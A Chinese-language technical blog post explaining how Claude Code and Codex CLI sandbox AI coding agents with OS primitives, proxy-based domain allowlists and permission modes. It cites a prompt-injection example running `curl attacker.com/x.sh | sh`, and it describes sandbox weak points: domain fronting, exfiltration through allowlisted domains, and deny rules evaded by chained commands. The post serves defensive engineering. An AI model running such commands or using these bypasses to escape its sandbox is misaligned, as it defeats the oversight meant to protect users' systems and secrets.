



## 引言：为什么 agent 必须配沙箱

AI coding agent 的本质矛盾在于：**模型输出是不可信的，但你又必须让它跑命令**。

Claude Code 和 Codex CLI 这类工具都要在本机执行 shell 命令——跑测试、装依赖、git 操作。这些命令的来源是模型的 token 流，而模型输出会被三类现实污染：

1. **Prompt injection**。agent 读你的代码库、读网页、读 issue 评论，这些内容里可能藏着指令。一段恶意 README 就能让 agent `curl attacker.com/x.sh | sh`。
2. **幻觉命令**。模型会一本正经地写出 `rm -rf` 路径拼错的命令、覆盖错配置文件的 kubectl，这不是攻击，但破坏力相同。
3. **供应链内容不可控**。agent 跑 `npm install` 时，postinstall 脚本里是什么，谁也不知道。

第一代解法是**权限提示**：每个敏感命令弹窗问用户。这条路的问题是 Anthropic 自己量化的——"approval fatigue"（审批疲劳）。用户一天点两百次"允许"，第三次之后就不再看内容了，权限提示退化成点击障碍，安全收益归零。更致命的是，提示打断了自动化：headless 跑 CI、夜里跑长任务的 agent，卡在一个弹窗上等于挂死。

沙箱是第二代解法，思路完全反转：**与其每次问"这个命令能不能跑"，不如先划一块"怎么跑都出不去"的地，地里面的命令一律直接放行**。Anthropic 的内部数据是沙箱化后权限提示减少 84%——安全和自主性同时上升，而不是 traded off。

但"出不去"三个字，在操作系统层面是硬功夫。这篇文章讲清楚 Claude Code 和 Codex CLI 是怎么做到的：它们用了哪些内核原语（Seatbelt、bubblewrap、Landlock、seccomp），网络隔离为什么都长成了一个"沙箱外代理"的形状，权限模式和沙箱是什么关系，以及这套东西对做网关/云原生的人有什么直接启示。

先给全景图：



地基本身分两层，缺一不可：只有文件系统隔离没有网络隔离，被注入的 agent 可以把你的 SSH 私钥读出来发出去；只有网络隔离没有文件系统隔离，agent 可以改写 shell 配置文件，在你下次开终端时拿到一切。

## 一、两大流派：OS 原语 vs 容器/VM

给 agent 做隔离，业界只有两条路：

**流派一：OS 原语（本地 CLI 的选择）**。不用起虚拟机、不用拉镜像，直接调用操作系统内核提供的安全机制，把限制打在 syscall 层。Claude Code 和 Codex CLI 都走这条路，因为它满足本地开发的全部体感约束：

- **零启动开销**——限制是进程属性，不是额外一层虚拟化；
- **覆盖所有子进程**——内核不知道"agent"是什么，它只知道"这个进程树里的每个 syscall 都要过策略"，所以 `bash -c` 套几层 shell、npm 拉起的 postinstall 脚本，全都跑不掉；
- **失败是明确报错**——被拦截的调用返回 `EPERM`（Operation not permitted），agent 能看到错误、能自我修正，而不是静默失败。

代价是每家 OS 的原语完全不同，实现必须 per-platform 分叉：

| 平台 | Claude Code | Codex CLI |
|---|---|---|
| macOS | Seatbelt（`sandbox-exec`） | Seatbelt（`/usr/bin/sandbox-exec`） |
| Linux | bubblewrap | bubblewrap + seccomp（`codex-linux-sandbox` helper） |
| WSL2 | bubblewrap（同 Linux） | 同 Linux 实现 |
| 原生 Windows | 不沙箱（建议用 WSL2） | 原生 Windows sandbox（PowerShell）/ WSL2 走 Linux 实现 |

**流派二：容器/VM（云端会话的选择）**。Codex Cloud、Claude Code on the web 这类产品，每个会话跑在托管容器或 microVM 里，边界是虚拟化级别的，再用出口代理管网络、作用域限定的凭据代理管 git。云端的威胁模型不同（租户隔离 + 平台不信任任何人），VM 边界比 syscall 过滤更硬，但秒级启动开销对本地 CLI 不可接受。

本文聚焦流派一——它更有意思，因为它是在"不动内核、不改发行版"的约束下，把现有内核机制组合成安全边界的工程范本。而做网关的人会对流派二的出口代理会心一笑：那本质上就是一个 per-tenant 的 egress gateway。

## 二、文件系统隔离：三个内核原语，一个共同形状

文件系统隔离回答的问题是：**命令跑起来之后，能读写哪些路径**。两家的默认策略高度一致——**读默认全盘，写默认只放开工作目录**。理由很实际：build 工具要全盘找头文件、链接器、系统库（收紧读会大面积破坏工具链），而破坏力主要来自写。

下面按机制逐个拆。

### 2.1 macOS Seatbelt：一门声明式的 syscall 防火墙

Seatbelt 是 macOS 内核（自 Tiger 起内置）的沙箱机制，用户态入口是 `/usr/bin/sandbox-exec`。它的工作方式对网关开发者极度友好——**像写防火墙规则一样写 Scheme**。策略语言 `.sbpl` 的骨架是"默认全 deny，然后逐条 allow"：

```scheme
(version 1)
(deny default)
(allow file-read*)
(allow process-exec*)
(allow file-write*
  (require-all
    (subpath (param "WRITABLE_ROOT_0"))
    (require-not (subpath (param "WRITABLE_ROOT_0_RO_0")))))
```

这段是 Codex 真实生成的 profile 结构（取自其 policy 构建逻辑）：

- `(deny default)` —— 默认拒绝一切 syscall 类别，这是 deny-by-default 防火墙思维；
- `(allow file-read*)` —— 放开全盘读；
- 最后一条 allow 是精华：写权限授予 `WRITABLE_ROOT_0`（工作目录），但**用 `require-not` 把其中的 `.git` 挖成只读岛**。agent 可以改代码，但不能改写 git 历史来掩盖自己的操作。

Claude Code 在 macOS 上同样用 Seatbelt 执行沙箱化的 Bash 工具，默认写边界是当前工作目录（含子目录）、`--add-dir` 追加的目录、以及 `$TMPDIR` 指向的 per-user 临时目录。

**参数注入而非字符串拼接**，是 Codex 实现里最值得抄的一笔。工作目录路径不拼进 policy 字符串，而是通过 `sandbox-exec` 的 `-D` 参数定义、在 policy 里用 `(param ...)` 引用：

```shell
/usr/bin/sandbox-exec \
  -p '(version 1) (deny default) (allow file-read*) (allow file-write* (require-all (subpath (param "WRITABLE_ROOT_0")) (require-not (subpath (param "WRITABLE_ROOT_0_RO_0")))))' \
  -DWRITABLE_ROOT_0=/Users/dev/project \
  -DWRITABLE_ROOT_0_RO_0=/Users/dev/project/.git \
  -- \
  npm install
```

路径永远是被引号包裹的**数据**，不存在被解释成 Scheme 代码的可能——一个名字里带括号的工作目录无法逃出参数位。这和 SQL 用绑定变量防注入是同一个道理：**策略是代码，路径是数据，两者永不拼接**。另外两个细节：Codex 只调用硬编码的 `/usr/bin/sandbox-exec`（不走 `PATH`，防止恶意 agent 在前置目录塞一个假 `sandbox-exec`）；路径先做 canonicalize 再传参，规避 macOS 上 `/var` 与 `/private/var` 这类别名导致 subpath 匹配失配。

Seatbelt 的限制也要说清楚：Apple 从未正式文档化 `.sbpl`，且 `sandbox-exec` 在新 macOS 上被标记 deprecated（仍可用）。这也是为什么两家都把它当实现细节封在 runtime 里，而不是暴露给用户写。

### 2.2 Linux bubblewrap：挂载命名空间里"造"一个新根

Linux 没有 Seatbelt 对应物，Claude Code（和现在的 Codex）选择了 **bubblewrap（`bwrap`）**——Flatpak 御用的容器化工具。它的核心是 **unprivileged user namespace + mount namespace**：不需要 root，进程就可以持有一个私有挂载视图，在里面把文件系统"重新摆一遍"：

```shell
bwrap \
  --ro-bind / /                      # 整个根文件系统只读挂进来 → 全盘可读、不可写
  --bind ~/code/caishaodong.blog ~/code/caishaodong.blog   # 工作目录可读写挂载
  --tmpfs /tmp                       # 临时目录用私有 tmpfs
  --unshare-net                      # 关键：新网络命名空间，直接断网
  --die-with-parent \
  -- npm install
```

命令看到的是一个"看起来完整、实际被裁剪过"的文件系统：想写 `/etc/passwd`？那个挂载点是只读的，内核直接回 `Read-only file system`。这和容器 runtime 给容器一个简化 rootfs 的思路同源，但**全程无特权、无 daemon、无镜像**——命名空间是内核免费给的。

工程上的坑主要在分发侧：Ubuntu 的 AppArmor 限制 unprivileged user namespace，`bwrap` 挂 `/proc` 会失败（报 `Can't mount proc on /newroot/proc: Operation not permitted`），Claude Code 为此提供了 `enableWeakerNestedSandbox` 设置（在容器内跑时绑定外层已有的 `/proc`），Codex 文档则给出了加载 `bwrap-userns-restrict` AppArmor profile 的标准操作。Codex 甚至为找不到系统 `bwrap` 的场景内置了一个 bundled binary——并且对它做 **digest 校验**，校验失败专用退出码退出。供应链意识拉满：沙箱工具本身不能成为供应链攻击的入口。

### 2.3 Landlock + seccomp：Codex 的第一代 Linux 方案（以及为什么换掉）

Codex 的 Linux 沙箱早期不走 bubblewrap，而是一个叫 `codex-linux-sandbox` 的独立 helper 二进制，用两个更"轻"的原语组合：

**Landlock（文件系统）**——Linux 5.13+ 内置的无特权沙箱，进程给自己套路径规则，不需要 namespace：

```rust
fn install_filesystem_landlock_rules_on_current_thread(writable_roots: Vec<PathBuf>) -> Result<()> {
    let abi = ABI::V5;
    let access_rw = AccessFs::from_all(abi);
    let access_ro = AccessFs::from_read(abi);

    let mut ruleset = Ruleset::default()
        .set_compatibility(CompatLevel::BestEffort)
        .handle_access(access_rw)?
        .create()?
        // 整个文件系统：只读
        .add_rules(landlock::path_beneath_rules(&["/"], access_ro))?
        // /dev/null 例外：可写（大量工具默认写它）
        .add_rules(landlock::path_beneath_rules(&["/dev/null"], access_rw))?
        .set_no_new_privs(true);

    if !writable_roots.is_empty() {
        ruleset = ruleset.add_rules(landlock::path_beneath_rules(&writable_roots, access_rw))?;
    }
    let status = ruleset.restrict_self()?;
    // ...
}
```

和 Seatbelt profile 一一对应：全盘读（`path_beneath_rules(&["/"], access_ro)`）、工作目录读写、`/dev/null` 这种工程必需的例外。`restrict_self()` 应用规则后由 `execvp` 接管进程，限制随 exec 继承给目标命令。

**seccomp（网络）**——BPF 程序挂在 syscall 入口上做细粒度裁决：

```rust
// 网络关闭时：无条件 deny 一族网络 syscall
deny_syscall(libc::SYS_connect);
deny_syscall(libc::SYS_accept);
deny_syscall(libc::SYS_accept4);
deny_syscall(libc::SYS_bind);
deny_syscall(libc::SYS_listen);
// ...
// socket() 单独精细裁剪：只放行 AF_UNIX
rules.insert(libc::SYS_socket, vec![unix_only_rule]);

let filter = SeccompFilter::new(
    rules,
    SeccompAction::Allow,                     // 默认放行其余 syscall
    SeccompAction::Errno(libc::EPERM as u32), // 命中 deny 规则 → 返回 EPERM
    TargetArch::x86_64,
)?;
```

三个实现决策值得细品：

1. **`socket(AF_UNIX, ...)` 是唯一被放行的 socket 族**——本地 IPC（cargo clippy 之类的工具靠 socketpair 通信）继续工作，TCP/UDP 创建即被拒；
2. **`recvfrom` 不拦**——同上，不破坏合法本地 IPC；
3. **ptrace 被 deny**——防止沙箱内进程去调试、窥探沙箱外的进程。

这套方案的死穴是 **Landlock 要求内核 5.13+**，在老内核上要么降级警告、要么要求用户自己上容器——对 CLI 工具是致命的分发摩擦。所以现在的 main 分支上，`codex-linux-sandbox` 的实现已经换血，其入口注释写得明明白白：

```rust
//! Linux sandbox helper entry point.
//!
//! On Linux, `codex-linux-sandbox` applies:
//! - in-process restrictions (`no_new_privs` + seccomp), and
//! - bubblewrap for filesystem isolation.
```

**文件系统隔离从 Landlock 迁到 bubblewrap，seccomp 保留负责进程内限制**，同时新增了 `proxy_lifecycle` / `proxy_routing` 模块——也就是说 Codex 的 Linux 网络模型也开始向"代理"收敛（下一节展开）。这场迁移本身就是个信号：**无特权挂载命名空间的可移植性，赢了按路径的 syscall 过滤**。

### 2.4 两家文件系统隔离对比

| 维度 | Claude Code | Codex CLI |
|---|---|---|
| macOS 机制 | Seatbelt `.sb` profile | Seatbelt `.sbpl` 动态生成 |
| Linux 机制 | bubblewrap | bubblewrap + seccomp（曾为 Landlock + seccomp） |
| 默认写范围 | 工作目录 + 子目录 + `$TMPDIR` | 工作目录 + `/tmp` + `$TMPDIR` + 可配置 `writable_roots` |
| 默认读范围 | 全盘（可开 `blockReadsOutsideWorkingDirectories` 收紧到家目录之外） | 全盘（read-only 模式下写一律拒绝） |
| 特殊保护 | protected paths（如 `.claude/skills`） | `.git` 强制只读（`require-not` subpath） |
| 越界写的行为 | 明确报错（`Read-only file system` / `Operation not permitted`） | 明确报错（EPERM） |
| 读保护的软肋 | 默认全盘可读 ⇒ 凭据文件裸奔，需 `mask` 凭据 / 收紧读 | 同样默认可读 ⇒ 依赖网络层兜底防外传 |

注意最后一行：**"读默认全盘"意味着 `~/.ssh/id_rsa` 在沙箱内是可读的**。文件系统隔离本身不保护机密——它只防篡改；机密的保护闭环要靠网络隔离（读得出、发不出去）或显式凭据策略。Claude Code 为此提供了 `mask`（沙箱内读凭据文件返回掩码内容）和实验性的 `tlsTerminate`。设计自己的 agent 沙箱时，这是最容易漏的一块。

## 三、网络隔离：为什么都长成了"unix socket → 沙箱外代理"

文件系统边界画完，网络的问题才露出来：**你不能简单"断网"**——agent 要装依赖（npm/pypi）、要调 API、要 git pull；但你也无法在内核层做域名级裁决——syscall 层看到的是 `connect(fd, {family: AF_INET, port: 443, addr: 185.x.x.x})`，没有"域名"这个概念，DNS 只是 libc 发出的另一串 UDP 包。

两家的答案殊途同归，也是一个网关开发者一眼就能认出来的形状——**把 L7 裁决从内核挪到一个沙箱外的 sidecar 代理**：



分层拆解：

**第一层：把出口收窄成一个 socket。** Claude Code 的沙箱内进程被配置为经由环境变量（`HTTP_PROXY` / `HTTPS_PROXY` / `ALL_PROXY`，指向一个 unix domain socket 或本地回环端口）发出所有流量；配合一个可选的 seccomp 过滤器把沙箱内自建 unix socket 也堵上，防止进程绕过环境变量直连。Linux 侧更釜底抽薪：bubblewrap 的 `--unshare-net` 给沙箱一个全新网络命名空间——没有网卡、没有路由，除了一条通向代理的通道。Codex 的 seccomp 则在 syscall 层只放行 `AF_UNIX`。**内核负责"只有一条路"，这条路的尽头是代理。**

**第二层：代理做域名白名单。** 代理跑在沙箱外、以完整权限运行，是唯一理解"这是一次到 `registry.npmjs.org:443` 的 CONNECT"的地方。它拿请求的 **hostname**（HTTPS CONNECT 的目标主机，TLS 握手的 SNI 同源）对照 `sandbox.network.allowedDomains` 白名单：在白名单内 → 转发；不在 → Claude Code 弹出批准请求（选"Yes, and don't ask again"会固化为 `WebFetch(domain:...)` 规则），开了 `strictAllowlist` 则直接拒绝。`deniedDomains` 是反向的黑名单。

**第三层：明确定义"不检查什么"。** 默认配置下代理**不终结、不检查 TLS**——它看得见你要去哪（hostname + SNI），看不见你带了什么（payload）。这个取舍换来零证书安装（不用往系统里塞 CA 根证书、不用处理证书钉扎），代价写在官方文档里：白名单内的域名成为潜在的 exfiltration 通道，放行 `github.com` 这种大域名约等于放行了 hosted 在其上的全部内容。这正是"域名不是安全边界"的经典问题——和网关侧"按 Host 路由 ≠ 按 内容 安全"同构。

两家的差异主要在默认值的取舍上。Claude Code 的代理是**常驻默认开启**的架构核心（白名单默认空、首次遇到新域名时问用户）；Codex 的 `workspace-write` 模式**默认完全断网**（`[sandbox_workspace_write] network_access = false`），要网络得显式开，开了之后也有配套的代理路由。共同点是：**两者的 Linux 实现如今都内建了代理生命周期管理**——`proxy_lifecycle` / `proxy_routing` 已经出现在 Codex 的 `codex-linux-sandbox` 模块列表里。网络模型从"各家发明"收敛到"unix socket + 沙箱外代理 + 域名白名单"，这个形状本身就是最佳实践的锚点。

## 四、权限模式 × 沙箱：两个正交的轴

搞混这两个概念是理解 agent 安全的第一大坑。一句话版本：

> **Permission 决定"这个工具调用跑不跑、要不要先问你"；isolation 决定"跑起来之后能摸到什么"。**

它们作用于流水线的不同阶段，评估顺序也不同：



两个轴各自独立取值，形成一张矩阵。以 Codex 为例（`~/.codex/config.toml`）：

```toml
# 低摩擦日常档：边界内自由，越界才问
sandbox_mode = "workspace-write"
approval_policy = "on-request"

# 完全自主档（CI / 夜间任务）：边界内自由，越界直接失败，永不等待人工
sandbox_mode = "workspace-write"
approval_policy = "never"

# 不信任档：只许看
sandbox_mode = "read-only"
approval_policy = "on-request"
```

三档 `sandbox_mode` 的语义：

| 模式 | 文件 | 网络 | 适用 |
|---|---|---|---|
| `read-only` | 只读，写一律拒绝 | 无 | 不信任的仓库、纯分析任务 |
| `workspace-write` | 工作目录读写，`.git` 只读 | 默认断网，可显式开 | 日常开发的默认档 |
| `danger-full-access` | 无限制 | 无限制 | 名字自带警告，等价于没有沙箱 |

Codex 的 approval policy 现为 `on-request`（默认，越界才问）和 `never`（全自动，配合沙箱才敢用）两档，早期版本的 `untrusted` 已退役；此外还有 `approvals_reviewer = "auto_review"`，把批准请求交给一个 reviewer agent 自动裁决——边界本身不变，变的是"谁在边界上按门铃"。

Claude Code 侧同构：permission rules（`Bash(npm:*)` 这类 allow/deny 规则）在工具调用前评估；沙箱化后的 Bash 命令在边界内**绕过权限提示直接执行**——这正是 84% 提示减少的来源。沙箱没有覆盖的东西依然走权限系统：Claude Code 的文件编辑工具、MCP server、hooks 都跑在沙箱**外**，仍由 permission 层管。

对做平台的人来说，这个二维结构可以直接映射到熟悉的模型：**permission 层 = API 网关的认证/鉴权（请求进不进），isolation 层 = 服务网格的 L4 策略 + egress 控制（进来了能到哪）**。没有任何一家会拿其中一层去替代另一层。

## 五、已知局限：把话说满之前

两家的文档都罕见地诚实地列了局限，值得逐条理解（并映射到你自己的威胁模型）：

1. **域名白名单不是内容边界**。代理按 hostname/SNI 裁决、默认不看 TLS 内容，意味着 domain fronting（CONNECT 到白名单域名、TLS SNI 一致、HTTP Host 指向别处）在纯转发代理下有存活空间。缓解：企业场景用自定义代理终结 TLS 再检查（Claude Code 支持把内置代理换成自管的，`httpProxyPort`/`socksProxyPort` 指过去），或收紧到 `strictAllowlist`。
2. **白名单域名仍可转发数据**。允许了 `github.com` ⇒ gist、repo wiki、issue 评论都是通道。域名粒度永远粗于内容粒度，这是架构性极限，不是实现 bug。
3. **deny 命令规则只匹配链条首命令**。`Bash(curl:*)` 这类 deny 规则对 `bash -c "curl ..."` 或 `foo && curl ...` 的复合链条，匹配的是首个命令。syscall 级的沙箱没有这个漏洞（它看的是最终系统调用），这是权限层规则的固有局限——又一次说明两层为什么必须同时存在。
4. **deny-by-default 的兼容性税**。Seatbelt 的 `(deny default)` 会拦住一批老工具链的"非常规"行为（自定位的 dyld、写 `/var` 缓存的构建工具），表现为莫名奇妙的 `Operation not permitted`。bubblewrap 遇到 AppArmor/嵌套容器直接起不来。这是"安全默认值"向"开箱即用"交的税，两家都在用例外清单和诊断（Claude Code 的 `/sandbox` 面板、Codex 的 `codex sandbox macos/linux` 试验命令）硬扛。
5. **沙箱不覆盖非命令工具**。文件编辑工具、MCP server、hooks（Claude Code）都在沙箱外，靠 permission 层兜底。你的攻击面评估必须把"沙箱内"和"沙箱外但经权限"分开算。
6. **内核是信任根**。整套机制押注在"内核的 syscall 强制不可绕过"上。内核漏洞、或攻击者拿到可写内核模块加载权限，都直接出局。这与容器安全的信任根相同——比 VM 硬件虚拟化浅一层。

## 六、给网关/云原生开发者的启示

最后把这轮分析折叠回我们的本行。你会发现 agent 沙箱与 API 网关/服务网格共享大量 DNA：

**1. 它就是一个 per-session 的 egress gateway。** unix domain socket → 本地代理 → 白名单裁决，这个数据面和你给服务配 egress 控制（Envoy、calico 网络策略、Istio egress gateway）是同构的，只是控制面从"Istio CRD"换成了"agent 配置 + 人类批准按钮"。你已知的所有 egress 教训直接迁移：**按域名放行不是内容安全**、**域名前置绕过纯转发代理**、**TLS 终结点即信任点**。

**2. 网关插件执行环境该抄这份作业。** Kong/Higress 的插件跑在网关进程里，天然是高价值目标——一个恶意/被注入的插件能摸到全部路由配置与 upstream 凭据。agent 沙箱给出的可复制模式是：**OS 原语画 L4 边界（能碰什么文件、能连什么地址）+ 策略引擎画 L7 白名单（能访问哪些 upstream）+ 明确报错而非静默失败**。Wasm 插件体系用语言隔离换安全，但 syscalls 依然要过宿主——两层叠起来才是完整答案。

**3. MCP 工具沙箱化是下一个必答题。** MCP server 本质是"模型能调用的本地 RPC 端点"，每一个都是注入面。Anthropic 已经把 sandbox runtime 开源（`@anthropic-ai/sandbox-runtime`）并明确说可以用它包裹任意 agent 进程与 MCP server。给第三方 MCP server 套 bubblewrap + 代理白名单，和给第三方服务发 mTLS 证书 + 网络策略，是同一种治理动作。

**4. 凭据代理是"最小权限"的优秀样板。** Claude Code on the web 的做法值得单独记一笔：沙箱内没有 GitHub 凭据，git 客户端持一个**作用域受限的临时凭据**连到代理，代理验证凭据**和操作内容**（比如"只允许 push 到配置好的那个分支"）后，才附上真 token 转发给 GitHub。这就是网关侧 token 交换（token exchange）/ 凭据代理的经典模式，用在了 agent 场景：**让高权限凭据永远不进入不可信执行环境**。自建 agent 平台时，这比"给 agent 一把只读 token"细粒度得多。

**5. 平台原语选择的迁移路径本身是决策数据。** Codex 从 Landlock+seccomp 迁到 bubblewrap+seccomp，理由是可移植性与工具链兼容性压过了"更细的路径级控制"。在你的平台里选隔离原语时，同样的权衡表适用：**namespace（粗、可移植、无特权）vs syscall filter（细、per-arch、依赖内核版本）vs VM（最硬、最贵）**。默认从粗的开始，除非威胁模型逼你上细的。

## 结语

Agent 沙箱不是新产品——Seatbelt 长了二十年、seccomp 更老。新的东西是**组合方式**：拿无特权内核原语拼出"文件系统只许写工作目录、网络只许过代理、越界明确报错"的边界，把"要不要问用户"的权限问题和"能摸到什么"的隔离问题拆成正交的两层，前者换体验，后者保安全。

模型这双手越放越开是趋势。关住它的从来不是提示词里的"请勿作恶"，而是这些沉默运行的内核机制——每一个 `EPERM` 背后，都是一层被认真设计过的边界。

## 参考来源

- [Anthropic Engineering — Beyond permission prompts: making Claude Code more secure and autonomous](https://www.anthropic.com/engineering/claude-code-sandboxing)（84% 提示减少数据、网络代理架构、云端 git 凭据代理）
- [Claude Code Docs — Configure the sandboxed Bash tool](https://code.claude.com/docs/en/sandboxing)（Seatbelt/bubblewrap 平台矩阵、文件系统默认策略、网络隔离与白名单、mask 凭据、已知安全局限）
- [OpenAI Codex Docs — Sandboxing](https://developers.openai.com/codex/sandboxing)（sandbox_mode 三档、approval policy、bubblewrap 依赖与 AppArmor、Windows 支持）
- [simonw/research — codex-sandbox-investigation](https://github.com/simonw/research/tree/main/codex-sandbox-investigation)（Seatbelt policy 生成与 `-D` 参数注入、Landlock/seccomp 第一代实现的源码级分析）
- [openai/codex — codex-rs/linux-sandbox](https://github.com/openai/codex/tree/main/codex-rs/linux-sandbox)（当前实现：seccomp + bubblewrap + 代理模块，Landlock 已退役）
- [anthropics/sandbox-runtime](https://github.com/anthropics/sandbox-runtime)（开源沙箱 runtime，可独立用于包裹任意进程与 MCP server）
